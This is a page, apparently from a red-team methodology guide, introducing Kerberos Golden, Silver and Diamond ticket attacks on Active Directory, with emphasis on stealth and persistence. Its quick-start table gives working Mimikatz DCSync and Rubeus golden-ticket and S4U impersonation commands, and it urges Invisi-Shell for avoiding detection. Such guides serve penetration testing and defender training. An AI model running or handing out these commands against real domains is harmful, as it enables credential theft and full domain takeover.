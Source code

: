 [Prev: 25_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 27_AD_CS_Enumeration.md](./27_AD_CS_Enumeration.md)

# ⚔️ Kerberos Advanced Attacks - Exploitation and Persistence

> **⚠️ CRITICAL TOOL REQUIREMENT**: **Invisi-Shell** is mandatory for production environments to ensure stealth operations and avoid detection. See [Tool Arsenal](./01_Tool_Setup_Loading.md#-invisi-shell-complete-setup) for setup instructions.

## 📋 TABLE OF CONTENTS
1. [Overview](#-overview)
2. [Advanced Attack Fundamentals](#-advanced-attack-fundamentals)
3. [Golden Ticket Attacks](#-golden-ticket-attacks)
4. [Silver Ticket Attacks](#-silver-ticket-attacks)
5. [Diamond Ticket Attacks](#-diamond-ticket-attacks)
6. [Cross-References](#-cross-references)
7. [Quick Start Advanced Ops](#-quick-start-advanced-ops)
8. [At-a-Glance: Advanced Essentials](#-at-a-glance-advanced-essentials)
9. [Pivot Matrix: Strategic Next Steps](#-pivot-matrix-strategic-next-steps)
10. [Comprehensive Enumeration Tools](#-comprehensive-enumeration-tools)

## 🎯 OVERVIEW

**Kerberos Advanced Attacks** provides comprehensive techniques for advanced Kerberos exploitation, including Golden, Silver, and Diamond ticket attacks. This file focuses on sophisticated attack methods that can lead to complete domain compromise and persistent access.

### **🌟 What You'll Learn**
- **Advanced ticket manipulation** techniques and methods
- **Golden Ticket attacks** for complete domain access
- **Silver Ticket attacks** for service-specific access
- **Diamond Ticket attacks** for stealthy privilege escalation
- **Real-world attack scenarios** and practical exploitation

---

## 📋 **QUICK START ADVANCED OPS**

| Phase | Tool | Command | Purpose | OPSEC |
|------|------|---------|---------|------|
| 1 | Native | `klist` | Baseline tickets | 🟢 |
| 2 | Rubeus | `Rubeus tgtdeleg` | TGT delegation check | 🟡 |
| 3 | Mimikatz | `lsadump::dcsync /user:krbtgt` | KRBTGT hash (lab) | 🔴 |
| 4 | Rubeus | `golden /rc4:<krbtgt_hash> /user:Administrator /ptt` | Golden ticket | 🔴 |
| 5 | Rubeus | `s4u /user:svc /impersonateuser:admin /msdsspn:cifs/host /ptt` | S4U chain test | 🟠 |
